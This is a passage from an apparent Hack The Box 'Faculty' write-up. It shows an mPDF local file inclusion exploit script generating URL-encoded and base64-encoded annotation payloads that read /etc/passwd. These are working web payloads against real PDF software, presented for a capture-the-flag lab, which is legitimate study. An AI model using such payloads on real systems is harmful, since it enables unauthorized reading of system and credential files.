 Generating the payload:
```bash
┌──(kali㉿Kali)──[17:49:32]──[~/htb/Machines/Faculty]
└─$ python3 mpdf_lfi.py      
                          _____  _____  ______   ______ ___  __   __                  _       _ _   
                         |  __ \|  __ \|  ____| |____  / _ \ \ \ / /                 | |     (_) |  
               _ __ ___  | |__) | |  | | |__        / / | | | \ V /    _____  ___ __ | | ___  _| |_ 
               | '_ ` _ \|  ___/| |  | |  __|      / /| | | |  > <    / _ \ \/ / '_ \| |/ _ \| | __|
               | | | | | | |    | |__| | |        / / | |_| | / . \  |  __/>  <| |_) | | (_) | | |_ 
               |_| |_| |_|_|    |_____/|_|       /_/ (_)___(_)_/ \_\  \___/_/\_\ .__/|_|\___/|_|\__|
                                                                               | |                  
                                                                               |_|   
Enter Filename eg. /etc/passwd

File >> /etc/passwd
[+] Replace the content with the payload below
Url encoded payload:
%3Cannotation%20file%3D%22/etc/passwd%22%20content%3D%22/etc/passwd%22%20icon%3D%22Graph%22%20title%3D%22Attached%20File%3A%20/etc/passwd%22%20pos-x%3D%22195%22%20/%3E

Base64 encoded payload:
JTNDYW5ub3RhdGlvbiUyMGZpbGUlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGNvbnRlbnQlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGljb24lM0QlMjJHcmFwaCUyMiUyMHRpdGxlJTNEJTIyQXR0YWNoZWQlMjBGaWxlJTNBJTIwL2V0Yy9wYXNzd2QlMjIlMjBwb3MteCUzRCUyMjE5NSUyMiUyMC8lM0U=
```
I use the base64 version, as the original data was base64 encoded

![base64](Thu-11-2024_17-57.png)
